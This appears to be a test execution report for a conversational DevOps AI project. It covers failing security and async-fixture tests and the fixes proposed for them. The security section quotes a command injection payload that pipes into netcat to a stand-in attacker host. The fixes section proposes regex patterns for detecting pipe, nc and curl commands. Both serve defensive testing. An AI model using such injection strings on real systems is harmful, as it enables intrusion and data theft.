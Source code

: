 # Conversational DevOps AI - Test Execution Report

**Date**: 2025-07-25  
**Test Suite**: `tests/test_conversational_devops_suite.py`  
**Status**: ❌ **16 FAILED, 8 PASSED, 1 SKIPPED**

## Executive Summary

The test suite execution revealed **significant issues** that need immediate developer attention. While the implementation appears functionally complete, there are critical test infrastructure problems and some security concerns that must be addressed before production deployment.

## Test Results Overview

| Category | Passed | Failed | Issues |
|----------|--------|--------|--------|
| **Security Tests** | 0 | 3 | Critical security validation failures |
| **Input Validation** | 3 | 1 | Command injection detection gap |
| **Agent Orchestrator** | 0 | 4 | Async fixture configuration issues |
| **Conversational AI** | 0 | 5 | Async fixture configuration issues |
| **Memory Manager** | 0 | 3 | Async fixture configuration issues |
| **Integration Tests** | 5 | 0 | ✅ All passing |

## Critical Issues Requiring Immediate Attention

### 🚨 **Priority 1: Security Issues**

#### 1.1 eval() Usage Detection False Positives
```
FAILED test_no_eval_usage - AssertionError: eval() found in files
FAILED test_no_new_eval_introduced - AssertionError: Found 612 eval() usage(s)
```

**Root Cause**: Test is scanning virtual environment dependencies and external libraries  
**Impact**: False security alerts masking real issues  
**Fix Required**: 
- Update test to exclude `.venv/`, `__pycache__/`, and external library paths
- Focus scan on project source code only

#### 1.2 ast.literal_eval Usage Verification
```
FAILED test_ast_literal_eval_usage - AssertionError: ast.literal_eval not found in expected files
```

**Root Cause**: Test expecting specific files to contain `ast.literal_eval` replacements  
**Impact**: Cannot verify security fixes were properly implemented  
**Fix Required**: Update test to check actual implementation files

#### 1.3 Command Injection Detection Gap
```
FAILED test_command_injection_prevention - Failed to detect command injection: test | nc attacker.com 1337
```

**Root Cause**: Input validator not detecting pipe-based command injection  
**Impact**: Potential security vulnerability in production  
**Fix Required**: Enhance `input_validator.py` to detect pipe operators and network commands

### 🔧 **Priority 2: Test Infrastructure Issues**

#### 2.1 Async Fixture Configuration Problems
```
AttributeError: 'async_generator' object has no attribute 'deploy_agent'
```

**Root Cause**: Pytest async fixtures not properly configured  
**Impact**: 13 test failures due to fixture setup issues  
**Fix Required**: 
- Add `@pytest_asyncio.fixture` decorators
- Configure pytest-asyncio mode properly
- Fix async context management in test fixtures

#### 2.2 Coroutine Handling Issues
```
RuntimeWarning: coroutine 'TestDevOpsMemoryManager.memory_manager' was never awaited
```

**Root Cause**: Async fixtures not properly awaited in test setup  
**Impact**: Memory leaks and unreliable test execution  
**Fix Required**: Proper async context management in test fixtures

## Detailed Failure Analysis

### Security Test Failures

1. **test_no_eval_usage**: Scanning too broadly, including virtual environments
2. **test_ast_literal_eval_usage**: Hardcoded file expectations not matching implementation
3. **test_no_new_eval_introduced**: Same broad scanning issue as #1

### Component Test Failures

#### Agent Orchestrator (4 failures)
- All failures due to async fixture configuration
- Core functionality appears implemented but untestable due to fixture issues

#### Conversational AI (5 failures)  
- All failures due to async fixture configuration
- Intent recognition and conversation management implemented but untestable

#### Memory Manager (3 failures)
- All failures due to async fixture configuration  
- PostgreSQL integration implemented but untestable

## Passing Tests ✅

The following test categories are working correctly:

1. **Input Validation** (3/4 passing)
   - SQL injection prevention ✅
   - XSS prevention ✅  
   - Path traversal prevention ✅
   - Command injection needs enhancement ⚠️

2. **Integration Tests** (5/5 passing)
   - Component integration ✅
   - Configuration loading ✅
   - Error handling ✅
   - Logging functionality ✅
   - Environment validation ✅

## Required Developer Actions

### Immediate (Priority 1)

1. **Fix Security Test Scope**
   ```python
   # Update test_conversational_devops_suite.py line ~45
   exclude_patterns = ['.venv/', '__pycache__/', 'site-packages/']
   ```

2. **Enhance Command Injection Detection**
   ```python
   # Add to input_validator.py dangerous_patterns
   r'\|\s*\w+',  # Pipe operators
   r'nc\s+\w+',  # netcat commands
   r'curl\s+\w+', # curl commands
   ```

3. **Fix Async Test Configuration**
   ```python
   # Add to conftest.py or test file
   pytest_plugins = ['pytest_asyncio']
   
   @pytest_asyncio.fixture
   async def orchestrator():
       # Proper async fixture setup
       orchestrator = AgentOrchestrator()
       yield orchestrator
       # Proper cleanup
   ```

### Secondary (Priority 2)

4. **Update ast.literal_eval Test**
   - Verify actual implementation files contain security fixes
   - Remove hardcoded file expectations

5. **Add Proper Test Cleanup**
   - Ensure all async resources are properly closed
   - Add teardown methods for test fixtures

## Conclusion

The Conversational DevOps AI implementation appears to be functionally complete with all required components in place. However, the test suite reveals significant issues that need to be addressed before production deployment:

1. **Security**: Command injection detection needs enhancement
2. **Test Infrastructure**: Async fixture configuration needs fixing
3. **Test Coverage**: Security tests need proper scope configuration

Once these issues are addressed, the implementation should be ready for production use. The core functionality (conversational interface, unified orchestration, PostgreSQL integration) appears to be implemented correctly based on the passing integration tests.

## Next Steps

1. Address Priority 1 issues immediately
2. Re-run test suite after fixes
3. Proceed with deployment once all tests pass
